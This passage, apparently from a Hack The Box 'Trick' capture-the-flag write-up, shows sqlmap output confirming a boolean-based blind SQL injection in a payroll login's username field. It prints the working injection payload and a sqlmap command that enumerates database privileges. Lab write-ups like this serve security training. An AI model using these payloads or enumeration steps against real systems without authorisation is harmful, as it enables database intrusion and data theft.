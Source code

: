 ```
[06:50:01] [WARNING] heuristic (basic) test shows that POST parameter 'username' might not be injectable
[06:50:02] [INFO] testing for SQL injection on POST parameter 'username'
[06:50:02] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[06:51:07] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause (subquery - comment)'
[06:51:10] [INFO] POST parameter 'username' appears to be 'AND boolean-based blind - WHERE or HAVING clause (subquery - comment)' injectable (with --not-string="21")
[06:51:23] [INFO] heuristic (extended) test shows that the back-end DBMS could be 'MySQL' 
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
for the remaining tests, do you want to include all tests for 'MySQL' extending provided risk (1) value? [Y/n] Y
[06:51:23] [INFO] checking if the injection point on POST parameter 'username' is a false positive
POST parameter 'username' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 155 HTTP(s) requests:
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause (subquery - comment)
    Payload: username=lol' AND 1401=(SELECT (CASE WHEN (1401=1401) THEN 1401 ELSE (SELECT 3464 UNION SELECT 5831) END))-- pFpw&password=lol
---
[06:51:38] [INFO] testing MySQL
[06:51:38] [INFO] confirming MySQL
[06:51:40] [INFO] the back-end DBMS is MySQL
web application technology: Nginx 1.14.2
back-end DBMS: MySQL >= 5.0.0 (MariaDB fork)
[06:51:40] [INFO] fetched data logged to text files under '/home/mark/.local/share/sqlmap/output/preprod-payroll.trick.htb.'

[*] ending @ 06:51:40 /2023-02-07/
```

Now we can do things like dump db and stuff but i like to check the privileges of a user 

```
┌──(venv)─(mark__haxor)-[~/Desktop/B2B/HTB/Trick]
└─$ sqlmap -r request --batch --technique B --level 5 --privileges
        ___
       __H__
 ___ ___[)]_____ ___ ___  {1.7#stable}
|_ -| . [']     | .'| . |
|___|_  [,]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 06:53:33 /2023-02-07/

[06:53:33] [INFO] parsing HTTP request from 'request'
[06:53:33] [INFO] resuming back-end DBMS 'mysql' 
[06:53:33] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause (subquery - comment)
    Payload: username=lol' AND 1401=(SELECT (CASE WHEN (1401=1401) THEN 1401 ELSE (SELECT 3464 UNION SELECT 5831) END))-- pFpw&password=lol
---
[06:53:35] [INFO] the back-end DBMS is MySQL
web application technology: Nginx 1.14.2
```